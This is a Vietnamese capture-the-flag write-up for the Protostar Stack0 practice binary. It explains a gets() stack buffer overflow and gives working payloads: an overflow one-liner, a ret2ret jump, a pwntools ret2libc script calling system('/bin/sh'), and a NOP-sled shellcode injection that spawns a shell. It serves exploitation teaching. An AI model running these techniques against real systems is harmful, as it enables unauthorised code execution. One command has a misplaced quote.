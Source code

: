 # Stack0

Đầu tiên ta chạy thử chương trình, chương trình yêu cầu nhập input. 

![run](run.png)

`try again?`
Vậy cùng xem thử qua hàm main.

![main](disass.png)

t thấy chương trình dùng gets để nhập input vào `[esp+0x1c]`. Sau đó so sánh `[esp+0x5c]` với 0, nếu = 0 in ra `0x8048529 (try again?)` nếu ko thì in ra `0x8048500(you have changed the 'modified' variable)`. Vì ban đầu `[esp+0x5c]` được gán giá trị = 0 nên mục đích của chall này là thay đổi giá trị cua `[esp+0x5c]` để in ra *you have changed the 'modified' variable*. Ta tính được size của `[esp+0x1c]` 0x5c - 0x1c = 64 byte. vậy cần nhập một chuỗi > 64 byte để ghi đè giá trị của `[esp+0x5c]`.

## Solution

### Buffer Overflow

`python -c 'print "a"*65 | ./stack0`

### Ret2ret

Ta có thể overflow sang EIP để jump về `0x08048419`. Mình dùng Gdb để có đc địa chỉ của ESP,EBP.

![ebp-esp](ebp-esp.png)

`padding = [ebp]-[esp+0x1c] + ebp(4byte) = 80`
payload: `python -c 'print "a"*80 + "\x19\x84\x04\x08"' | ./stack0`
![ret2ret](ret2ret.png)

## Spawn Shell

### return về hàm system()

thay vì để jump về `0x08048419` ta có thể return về hàm system() để spawn shell.
![shell](shell.png)

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

#system() address
system_addr = 0xf7e11790
info('system_addr: ' + hex(system_addr))
#/bin/sh address
sh_addr = 0xf7dd0000+ 0x18e363 #base address + offset
info('sh_addr: ' + hex(sh_addr))
padding = 80*b'b' #padding tính từ phần trên
payload = padding + p32(system_addr) + p32(0xdeadbeef) + p32(sh_addr)

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell2](shell2.png)

### inject code

Check qua phân vùng stack, mình thấy nó có quyền excute. Nên mình sẽ inject shellcode vào stack.

```python
#!/usr/bin/python3
from pwn import *
elf = context.binary = ELF('./stack0')

padding = b'a'*80
eip = p32(0xffffd250+100) # esp addr + offset nop_slide

nop_slide = b"\x90"*400

shellcode = b"jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"

payload = padding + eip + nop_slide + shellcode

p = process('./stack0')
p.sendline(payload)
p.interactive()
```

![shell3](shell3.png)